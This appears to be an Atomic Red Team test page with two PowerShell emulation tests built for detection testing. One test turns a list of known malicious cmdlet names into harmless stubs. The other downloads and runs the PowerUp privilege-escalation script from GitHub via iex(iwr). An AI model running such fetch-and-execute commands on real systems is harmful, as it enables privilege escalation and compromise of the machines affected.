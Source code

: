 




<br/>
<br/>

## Atomic Test #20 - PowerShell Invoke Known Malicious Cmdlets
Powershell execution of known Malicious PowerShell Cmdlets

**Supported Platforms:** Windows


**auto_generated_guid:** 49eb9404-5e0f-4031-a179-b40f7be385e3





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| Malicious_cmdlets | Known Malicious Cmdlets | string | "Add-Persistence", "Find-AVSignature", "Get-GPPAutologon", "Get-GPPPassword", "Get-HttpStatus", "Get-Keystrokes", "Get-SecurityPackages", "Get-TimedScreenshot", "Get-VaultCredential", "Get-VolumeShadowCopy", "Install-SSP", "Invoke-CredentialInjection", "Invoke-DllInjection", "Invoke-Mimikatz", "Invoke-NinjaCopy", "Invoke-Portscan", "Invoke-ReflectivePEInjection", "Invoke-ReverseDnsLookup", "Invoke-Shellcode", "Invoke-TokenManipulation", "Invoke-WmiCommand", "Mount-VolumeShadowCopy", "New-ElevatedPersistenceOption", "New-UserPersistenceOption", "New-VolumeShadowCopy", "Out-CompressedDll", "Out-EncodedCommand", "Out-EncryptedScript", "Out-Minidump", "PowerUp", "PowerView", "Remove-Comments", "Remove-VolumeShadowCopy", "Set-CriticalProcess", "Set-MasterBootRecord"|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$malcmdlets = #{Malicious_cmdlets}
foreach ($cmdlets in $malcmdlets) {
    "function $cmdlets { Write-Host Pretending to invoke $cmdlets }"}
foreach ($cmdlets in $malcmdlets) {
    $cmdlets}
```






<br/>
<br/>

## Atomic Test #21 - PowerUp Invoke-AllChecks
Check for privilege escalation paths using PowerUp from PowerShellMafia

**Supported Platforms:** Windows


**auto_generated_guid:** 1289f78d-22d2-4590-ac76-166737e1811b






#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
iex(iwr https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/d943001a7defb5e0d1657085a77a0e78609be58f/Privesc/PowerUp.ps1 -UseBasicParsing)
Invoke-AllChecks
```
